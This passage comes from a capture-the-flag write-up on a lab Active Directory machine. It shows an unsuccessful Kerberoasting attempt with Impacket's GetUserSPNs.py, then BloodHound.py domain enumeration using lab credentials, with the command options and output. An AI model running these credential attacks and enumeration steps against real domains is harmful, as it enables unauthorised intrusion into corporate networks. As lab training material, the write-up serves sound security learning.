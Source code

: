 #### Kerberoasting

Now that I have valid domain creds, I tried to Kerberoast, but no tickets came
back:

    
    
    root@kali# GetUserSPNs.py -request -dc-ip 10.10.10.192 'blackfield.local/support:#00^BlackKnight'
    Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation
    
    No entries found!
    

### Bloodhound

#### Collection

There’s a BloodHound injestor that can be run from Linux,
[BloodHound.py](https://github.com/fox-it/BloodHound.py). I had a hell of a
time getting to work with Python3.8 that was running on Kali, but it worked
fine when I installed with Python2, `python -m pip install bloodhound`.

The parameters for `bloodhound-python` took a bit of playing with:

  * `-c ALL` \- All collection methods
  * `-u support -p #00^BlackKnight` \- Username and password to auth as
  * `-d blackfield.local` \- domain name
  * `-dc dc01.blackfield.local` \- DC name (it won’t let you use an IP here)
  * `-ns 10.10.10.192` \- use 10.10.10.192 as the DNS server

    
    
    root@kali# bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192
    INFO: Found AD domain: blackfield.local
    INFO: Connecting to LDAP server: dc01.blackfield.local
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 18 computers
    INFO: Connecting to LDAP server: dc01.blackfield.local
    INFO: Found 315 users
    INFO: Connecting to GC LDAP server: dc01.blackfield.local
    INFO: Found 51 groups
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: DC01.BLACKFIELD.local
    INFO: Done in 00M 04S
    

It produced four `.json` files:

    
    
    root@kali# ls
    computers.json  domains.json  groups.json  users.json
    

#### Analysis
